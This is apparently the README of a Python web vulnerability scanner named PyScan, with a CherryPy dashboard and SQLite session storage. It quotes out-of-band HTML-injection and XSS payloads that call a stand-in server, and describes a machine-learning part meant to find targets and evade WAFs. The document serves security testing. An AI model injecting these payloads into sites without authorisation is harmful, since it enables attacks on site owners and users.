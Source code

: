 # PyScan

This Vulnerability Scanner is written in Python, and combines injection of payloads with `AI` for the recognition of vulnerable sites.
It provide a very beautiful Web-based panel only for visualization of the data (written with `CherryPy`+`Jinja2`)

The console tool reports all the data as `session`:

Every `session` is characterized by the title, the date, the author and a simple description, and will be memorized in a `SQLite` db.
You can use sessions for see infos from the web-panel.

# Console Python Vuln

Included with the tool, there is a very simple an useful tool like `msf` : `cpv.py`, that you can use for see the sessions and some infos about them.

# Modules

Now, the scanner supports all the most important vulnerabilities, and test them using some modules that inject payloads.
The payloads are very simple and are utilized for see how the web application interact with the given input, while the last payload, is an `out of band` payload, that use a request to a simple web server that you launch (`CherryPy` powered) for obtain the assurrance that the web application is vuln to the chosen attack.

A simple example of this technique is shown in the following code section:
```html 
<img src="https://our-server.hostname.com/?token=SGkgTWlr&attack=html_inj" /> 
``` 

will send a GET request to our server for obtain the given resource, and so, our server will log the request, giving us the almost absolute certainty that the web application is vuln (in this case to HTML Injection).

Another simple example:
```html 
<script src="https://our-server.hostname.com/?token=SGkgTWlr&attack=xss"></script> (XSS Reflected)
or
<script>new Image("https://our-server.hostname.com/?token=SGkgTWlr&attack=xss")</script> (XSS DOM)
``` 

These payloads show the same technique, but testing the web application for XSS Vulnerability.

# AI (Artificial Intelligence)

The scanner provide a very simple and useful algorithm of machine learning, that using the collected data, search new ways for find vulnerable targets and escape WAFs.

The model, for now, is in developing, and must do some practice, but is a good function that I want implement.

# Utilities

In the utilities, you can find all the tools that are used for recon, data collecting, session manipulation, server out-of-band, DNS mapper and more.

In particular, the Out-Of-Band Server is a single tool that you must start apart.
For the server forwarding (without fight versus port forwarding), I recomend you to use `ngrok`, that provide a tunnel from your machine and the internet. The server and the entire platform, are developed using this tool for the forwarding of the service.

# Web Application
